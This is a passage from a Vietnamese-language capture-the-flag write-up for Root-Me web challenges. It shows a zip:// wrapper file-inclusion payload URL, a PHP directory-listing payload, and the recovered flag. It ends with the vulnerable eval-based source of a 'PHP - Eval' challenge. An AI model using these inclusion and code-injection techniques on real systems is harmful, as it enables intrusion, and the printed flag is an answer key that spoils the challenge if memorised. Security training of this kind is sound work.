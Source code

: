 dùng wrapper zip để giải nén file và đồng thời access đến a.php

`http://challenge01.root-me.org/web-serveur/ch43/index.php?page=zip://tmp/upload/OpcgreZoP.jpg%23a` như ta thấy ban đầu include sẽ tự động thêm .php vào file ta truyền vào

![image](https://hackmd.io/_uploads/SyvBd3xWkx.png)

Thành công nhận nội dung file php. Do server cấm system nên ta dùng scandir để check các file trong thư mục do trả ra một array nên ta sẽ dùng var_dump để đọc nội dung `<?php var_dump(scandir('.')); ?>`

![image](https://hackmd.io/_uploads/H1XMY2lZye.png)

tên file flag là `flag-mipkBswUppqwXlq9ZydO.php`

![image](https://hackmd.io/_uploads/B1X2Y3gZJl.png)

flag: `lf1-Wr4pp3r_Ph4R_pwn3d`

ở đây ta để ý thấy đề cập đến phar -> có vẻ dùng phar vẫn được

## PHP - Eval

hint: `Non-alphanumeric PHP code`


source:

```
<html>
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>
```
